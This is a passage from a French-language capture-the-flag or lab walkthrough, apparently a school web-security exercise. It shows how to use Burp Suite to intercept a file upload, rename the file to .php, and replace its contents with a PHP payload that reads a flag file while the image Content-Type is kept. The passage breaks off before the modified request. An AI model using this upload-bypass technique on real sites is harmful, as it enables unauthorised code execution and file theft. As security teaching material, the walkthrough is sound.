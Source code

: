 3. Dans Burp Suite :
   - Aller dans **Proxy → Intercept**
   - S'assurer que **"Intercept is off"** pour le moment

#### Étape 3 : Accès au endpoint vulnérable

1. Naviguer vers : `http://test-s3.web0x05.hbtn/task1`
2. Observer le formulaire d'upload

#### Étape 4 : Activation de l'interception

1. Dans Burp Suite, activer l'interception : **"Intercept is on"**
2. Dans Firefox, sélectionner le fichier `payload.png`
3. Cliquer sur le bouton **Upload**

#### Étape 5 : Interception et modification de la requête

La requête interceptée ressemble à ceci :

```http
POST /api/task1/ HTTP/1.1
Host: test-s3.web0x05.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://test-s3.web0x05.hbtn/task1
Content-Type: multipart/form-data; boundary=---------------------------372773235834417249173309245902
Content-Length: 4770
Origin: http://test-s3.web0x05.hbtn
Connection: keep-alive

-----------------------------372773235834417249173309245902
Content-Disposition: form-data; name="file"; filename="payload.png"
Content-Type: image/png

[Contenu binaire de l'image PNG...]
-----------------------------372773235834417249173309245902--
```

**Modifications à effectuer** :

1. **Changer le filename** :
   ```
   filename="payload.png"  →  filename="payload.php"
   ```

2. **Remplacer le contenu binaire** par le payload PHP :
   ```php
   <?php readfile('FLAG_1.txt') ?>
   ```

3. **Garder** `Content-Type: image/png` (ne pas modifier)

**Requête modifiée** :
